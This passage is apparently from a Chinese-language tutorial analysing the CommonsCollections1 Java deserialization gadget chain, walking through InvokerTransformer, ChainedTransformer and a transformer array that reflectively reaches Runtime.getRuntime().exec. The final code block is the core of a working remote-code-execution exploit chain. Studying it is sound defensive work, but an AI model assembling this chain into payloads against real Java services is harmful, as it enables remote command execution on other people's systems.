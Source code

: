 我们可以看到利用链的最后调用了`Runtime.getRuntime().exec()`，这意味着我们需要在前一步的链上可以达到调用任意类和方法的函数。

CommonsCollections1用的就是3.1版本下的`InvokerTransformer.transform()`

```java
public Object transform(Object input) {
    if (input == null) {
        return null;
    }
    try {
        Class cls = input.getClass();
        Method method = cls.getMethod(iMethodName, iParamTypes);
        return method.invoke(input, iArgs);

    } catch (NoSuchMethodException ex) {
        throw new FunctorException("InvokerTransformer: The method '" + iMethodName + "' on '" + input.getClass() + "' does not exist");
    } catch (IllegalAccessException ex) {
        throw new FunctorException("InvokerTransformer: The method '" + iMethodName + "' on '" + input.getClass() + "' cannot be accessed");
    } catch (InvocationTargetException ex) {
        throw new FunctorException("InvokerTransformer: The method '" + iMethodName + "' on '" + input.getClass() + "' threw an exception", ex);
    }
}
```

此处用的就是Java的反射机制，动态调用类和方法。为了能动态调用任意类函数，我们还得控制`iMethodName、iParamTypes、iArgs`，该类属性定义在InvokerTransformer的构造函数上

```java
public InvokerTransformer(String methodName, Class[] paramTypes, Object[] args) {
    super();
    iMethodName = methodName;
    iParamTypes = paramTypes;
    iArgs = args;
}
```

那么接下来就跟php类似了，找一个类，它的类属性可控，且该类属性后续还会调用transform函数。由于完成`Runtime.getRuntime().exec()`动作需要多次调用transform函数（先调用Runtime.getRuntime再调用Runtime.exec），所以还得找一个能多次调用transform的地方，来看一下`ChainedTransformer`

```java
private final Transformer[] iTransformers;// 填充构造后的实例

public Object transform(Object object) {
    for (int i = 0; i < iTransformers.length; i++) {
        object = iTransformers[i].transform(object);// 调用链，
    }
    return object;
}
```

在`Transformer`的子类下面找到能生成命令执行的利用链即可，来分析一下CommonCollections1的构造

```java
// real chain for after setup
final Transformer[] transformers = new Transformer[] {
      new ConstantTransformer(Runtime.class),// 获取Runtime对象
      new InvokerTransformer("getMethod", new Class[] {//获取Runtime.getRuntime()方法对象
         String.class, Class[].class }, new Object[] {
         "getRuntime", new Class[0] }),
      new InvokerTransformer("invoke", new Class[] {// 反射调用invoke,再invoke执行Runtime.getRuntime()方法，获取Runtime实例化对象
         Object.class, Object[].class }, new Object[] {
         null, new Object[0] }),
      new InvokerTransformer("exec",// 反射调用exec方法，执行最终的命令
         new Class[] { String.class }, execArgs),
      new ConstantTransformer(1) };
```